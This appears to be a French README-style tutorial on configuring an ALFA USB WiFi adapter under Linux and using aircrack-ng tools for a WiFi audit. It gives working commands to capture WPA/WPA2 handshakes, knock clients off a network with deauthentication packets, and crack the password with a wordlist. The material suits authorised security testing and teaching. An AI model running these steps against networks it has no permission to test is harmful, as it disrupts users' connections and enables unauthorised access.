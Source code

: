 ## Installation
1. Prérequis : 
    - Un système Linux (Ubuntu, Debian, Fedora, etc.).
    - Les droits d'administration (commande sudo).
    - Accès à Internet pour télécharger les pilotes.
    
2. Pilotes :
    - `lsusb` : voir si la carte est reconnu en usb
    - `ip link show` : lister interfaces réseaux

    Si rien n'est affiché, rechercher les pilotes et regarder les logs :
        - Dans ce cas j'utilise une AWUS036ACHM : `dmesg | grep mt7610`
   
## Configurations
1. Fichier manquants pour le firmware : `/lib/firmware/mediatek/`
    - `mt7610u.bin` `mt7610e.bin` sont des fichiers de conf à importer dans `/lib/firmware/mediatek/`
    - `git clone git://git.kernel.org/pub/scm/linux/kernel/git/firmware/linux-firmware.git`

2. Recharger les pilotes 
    - `sudo rmmod mt76x0u`
    - `sudo modprobe mt76x0u`

3. Voir si une erreur est présente : `dmesg | grep firmware`


4. Kill les processus
    - `sudo airmon-ng check kill`
        Effet : Cette commande désactive les services responsables des interférences
        Remarque : Après l'audit, vous pouvez redémarrer ces services pour rétablir la gestion classique des connexions WiFi.

## UP la carte et mode monitor
![alfa 1](https://github.com/user-attachments/assets/bf2410dd-acee-4394-b5d3-f8a703d51151)

- `sudo iwconfig // sudo ifconfig` : Montre toutes les interfaces avec les mode des cartes.

- `sudo ifconfig "INTERFACE" down` : Désactive l'interface réseau.
- `sudo iwconfig "INTERFACE" mode monitor` : Active le mode monitor.
- `sudo iwconfig "INTERFACE" mode managed` : Active le mode managed (de base).
- `sudo ifconfig "INTERFACE" up` : Active l'interface réseau.

![alfa 2](https://github.com/user-attachments/assets/4f7cdc10-bcc9-45c6-a035-5c5d57db0191)


## COMMANDES
- `sudo airmon-ng start "INTERFACE"` `sudo airmon-ng stop "INTERFACE"` avec `sudo iw "INTERFACE" del`
    But : Active le mode monitor sur l'interface spécifiée.
    Pourquoi : airmon-ng simplifie la gestion du mode monitor et s'assure qu'il n'y a pas de conflit avec d'autres processus.
- `sudo iw dev` pour voir la carte
- `sudo airodump-ng "INTERFACE"`
    But : Affiche une liste des réseaux WiFi détectés.
    Pourquoi : Cela vous permet de repérer le réseau cible et de récupérer son BSSID, son canal (CH) et son nom (ESSID).

- `sudo airodump-ng "INTERFACE" --bssid [BSSID] -c [CHANNEL] -w capture`
    Options détaillées :
        --bssid [BSSID] : Filtre les paquets pour capturer uniquement ceux provenant du point d'accès cible (adresse MAC).
        -c [CHANNEL] : Limite la capture au canal WiFi spécifié.
        -w capture : Enregistre les paquets capturés dans un fichier nommé capture-01.cap.
    Pourquoi : La capture est nécessaire pour récupérer une handshake WPA/WPA2, indispensable pour tenter de casser le mot de passe.

- Lorsqu'une handshake est capturée, vous verrez une ligne similaire à ceci : WPA handshake: [BSSID]
- Si vous ne voyez pas de handshake, cela signifie que :
    Aucun appareil ne s'est connecté ou reconnecté.
    Vous devrez provoquer une déconnexion/reconnexion

- Déconnecter l'appareil avec aireplay-ng
    Une fois que vous avez l'adresse MAC de l'appareil, vous pouvez l'utiliser pour envoyer un paquet de déconnexion (deauth) via aireplay-ng :
    - `sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] "INTERFACE"`
        --deauth 10 : Envoie 10 paquets de déconnexion (vous pouvez ajuster ce nombre selon vos besoins). Vous pouvez aussi envoyer un nombre plus élevé pour augmenter les chances de déconnexion.
        -a [BSSID] : L'adresse MAC de l'Access Point (routeur).
        -c [CLIENT_MAC] : L'adresse MAC du client (appareil à déconnecter).
        "INTERFACE" : L'interface WiFi en mode monitor. 
        Important : L'appareil ciblé devrait se déconnecter et tenter une reconnexion automatiquement, ce qui générera une handshake WPA/WPA2.

- Vérifier si il y a bien un handshake 
    - `sudo aircrack-ng file.cap` (1 handshake)
    - `sudo tshark -r file.cap eapol`
    Sinon
    - `sudo wireshark -r file.cap` et chercher des fichier oapol
    - `sudo tshark -r file.cap -Y "eapol && wlan.addr==CLIENT"`



- `sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap`
    Options détaillées :
        -w [wordlist.txt] : Spécifie un fichier contenant une liste de mots de passe possibles.
        -b [BSSID] : Cible le point d'accès spécifié.
        capture-01.cap : Utilise le fichier de capture généré par airodump-ng.
    Pourquoi : Cette étape tente de casser le mot de passe en utilisant une attaque par dictionnaire.


## Restaurer les services après l’audit

Après avoir terminé, redémarrez les services pour reprendre une utilisation normale du WiFi :

- `sudo systemctl restart NetworkManager`
- `sudo systemctl restart wpa_supplicant`
